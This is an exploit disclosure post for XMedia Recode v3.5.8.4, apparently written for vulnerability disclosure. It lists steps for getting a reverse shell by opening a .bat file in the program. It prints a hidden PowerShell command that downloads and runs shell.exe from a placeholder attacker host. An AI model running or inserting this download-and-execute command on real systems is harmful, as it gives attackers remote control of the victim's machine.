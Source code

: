 ```yaml
---
layout: post
title: XMedia Recode v3.5.8.4 - OS Command Injection
date: 2023-09-16
category: exploit
---
```


# Exploit Title: XMedia Recode v3.5.8.4 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 16.09.2023
# Vendor Homepage: https://www.xmedia-recode.de
# Software Link: https://www.xmedia-recode.de/download/XMediaRecode3584_setup.exe
# Tested Version: v3.5.8.4 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Create a `.bat` file that contains your reverse shell command.
2. Launch XMedia Recode.
3. Click on the **Open** button located at the bottom right.
4. Select the `.bat` file you created.
5. The reverse shell should now be active, connecting to your listener.

### Example of Reverse Shell Command in .bat

To create a reverse shell in a `.bat` file, you can use the following command:

```batch
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
